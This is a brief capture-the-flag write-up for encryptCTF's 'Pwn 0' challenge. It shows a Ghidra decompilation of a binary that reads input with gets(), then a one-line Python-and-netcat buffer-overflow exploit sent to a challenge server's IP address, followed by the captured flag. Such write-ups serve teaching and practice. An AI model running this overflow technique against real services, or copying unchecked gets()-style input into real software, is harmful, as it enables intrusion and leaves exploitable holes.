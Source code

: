 ## Pwn 0
### Pwning / Binary Exploitaion

A pretty basic challenge in binary exploitation. We are given a binary. Let's fire it up in Ghidra

The main function 
```

undefined4 main(void)

{
  int iVar1;
  char local_54 [64];
  undefined local_14 [16];
  
  setvbuf(stdout,(char *)0x0,2,0);
  puts("How\'s the josh?");
  gets(local_54);
  iVar1 = memcmp(local_14,&DAT_0804862d,4);
  if (iVar1 == 0) {
    puts("Good! here\'s the flag");
    print_flag();
  }
  else {
    puts("Your josh is low!\nBye!");
  }
  return 0;
}
```
Our input is being fed into `local_54` whereas, the value is compared i `local_14`. Since `gets` is being used, we exploit  `buffer overflow`

The value at `DAT_0804862d` is `H!gh`

Final Exploit
```
python -c 'print("A"*64+"H!gh\n")' | nc 104.154.106.182 1234
How's the josh?
Good! here's the flag
encryptCTF{L3t5_R4!53_7h3_J05H}
 ```